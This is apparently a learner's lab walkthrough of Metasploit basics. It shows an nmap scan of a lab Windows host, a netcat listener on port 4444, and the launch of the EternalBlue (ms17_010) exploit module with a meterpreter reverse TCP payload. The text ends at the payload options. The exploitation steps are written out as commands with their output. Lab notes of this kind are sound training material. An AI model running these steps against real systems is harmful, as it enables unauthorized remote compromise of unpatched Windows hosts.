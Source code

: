 
### WORKING WITH MODULES 


- search
- use
- show options 
- set PARAMETER_NAME VALUE 
    example `SET RHOST 10.10.10.10`

- setg for glolbal value
    example `SET RHOST 10.10.10.10`

### PRACTICE 

```
> sudo nmap -sS -sV -O -T4 --min-rate 8888 -vv 10.10.89.41

PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 128 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   reset ttl 128
49152/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:63:44:08:43:B3 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

## Then I create a listner from netcat 

root@ip-10-10-108-66:~# nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)


```

Now using msfconsole with the eternalblue payload 
```
msfconsole
msf5 > use windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.89.41
rhosts => 10.10.89.41
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.89.41      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

```